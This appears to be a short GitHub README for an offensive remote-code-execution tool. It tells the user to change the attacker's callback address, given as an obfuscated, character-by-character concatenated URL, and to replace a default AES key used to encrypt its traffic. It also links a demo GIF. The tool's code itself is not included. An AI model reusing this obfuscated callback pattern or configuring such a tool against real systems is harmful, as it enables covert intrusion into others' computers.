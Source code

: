 ## remote_code_ex3cution

! CHANGE ADDRESS

`$U='h'+ 't'+ 't'+ 'p'+':'+ '/'+'/'+ '0'+ '0'+'0'+'.'+'0'+ '0'+'0'+'.'+'0'+'0'+'0'+'.'+'0'+ '0'+ '0'+':'+ '8'+'0'+'0'+ '0'`


## DEMO
![DEMOGIF](https://user-images.githubusercontent.com/118774522/220413885-c2254a98-28e4-4fb3-967b-5b3693019456.gif)





To enhance security, it is recommended to replace the default encryption key "abcdefghijklmnop" with a custom key of your choice. Keep in mind that the key must be exactly 16 characters long to work with the AES encryption in CBC mode. 

by:@ rick porto
